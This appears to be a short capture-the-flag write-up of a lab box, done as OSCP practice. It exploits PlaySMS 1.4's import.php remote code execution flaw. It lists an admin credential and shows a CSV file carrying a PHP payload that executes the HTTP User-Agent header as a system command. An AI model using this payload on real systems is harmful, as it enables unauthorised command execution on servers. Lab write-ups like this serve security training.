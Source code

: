 Credentials:

* admin: idkwhatispass


# PlaySMS 1.4 - 'import.php' Remote Code Execution

![](vx_images/6678519648.png)


There is a ton of exploits in exploitdb's database. I couldn't find a way to see the version so I used metasploit to make sure the version 1.4 is vulnerable to RCE  and then I followed import.php PoC to get a shell into the box without metasploit for the sake of OSCP

# exploit.csv
```php
┌─[user@parrot]─[10.10.14.7]─[~/htb/frolic]
└──╼ $ cat exploit.csv 
Name,Mobile,Email,Group code,Tags
<?php $t=$_SERVER['HTTP_USER_AGENT']; system($t); ?>,22,44,ta
```

exploit.csv is a basic csv file that contains a php code. system function is triggered with our User-Agent, so User-Agent becomes our command.


# Payload

